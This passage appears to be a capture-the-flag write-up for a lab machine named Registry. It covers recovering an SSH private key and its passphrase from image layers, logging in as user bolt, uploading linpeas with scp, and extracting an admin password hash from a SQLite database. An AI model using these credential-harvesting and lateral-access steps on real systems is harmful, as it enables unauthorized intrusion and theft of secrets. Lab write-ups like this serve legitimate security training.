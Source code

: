 From sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b, `GkOcz221Ftb3ugog` is the passphrase for the rsa key.
Unzip each file with tar for further investigation
`ls -la`
```                
total 24
drwxr-xr-x 2 root root 4096 May 24  2019 .
drwx------ 3 root root 4096 Apr 24  2019 ..
-rw-r--r-- 1 root root   60 May 24  2019 config
-rw------- 1 root root 3326 May 24  2019 id_rsa
-rw-r--r-- 1 root root  743 May 24  2019 id_rsa.pub
-rw-r--r-- 1 root root  444 May 24  2019 known_hosts
```
There is an id_rsa for someone in the root directory. Pair this with the passcode we got and we have shell.. on who though?

`cat config`
```
Host registry
  User bolt
  Port 22
  Hostname registry.htb
```

For bolt it seems like.

## Foothold
---
Since wget doesnt work, this is how I transferred linpeas.
`scp -i /home/kali/Documents/Registry/id_rsa linpeas.sh bolt@registry.htb:/home/bolt/linpeas.sh`


> `scp` is an alternative for the convenient wget when dealing with firewalls. The usage is `scp [flags] /path/to/file [user]@[ip]:[destination/for/file]`
{: .prompt-tip }


```
# If you're trying out Bolt, just keep it set to SQLite for now.
database:
    driver: sqlite
    databasename: bolt
```
```
bolt@bolt:/var/www/html/bolt/app/database$ ls -la
total 300
drwxrwxr-x 2 www-data www-data   4096 Jun 12 03:47 .
drwxrwxr-x 9 www-data www-data   4096 Apr  6  2021 ..
-rw-r--r-- 1 www-data www-data 294912 Jun 12 04:06 bolt.db
-rw-rw-r-- 1 www-data www-data    170 Oct  8  2019 .gitignore
```
Database files tend to contain sensitive info. Using `strings`, we can grab human readable text
```
$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK
```
This line was present for admin. It is most likely a hash for a password for an admin user.
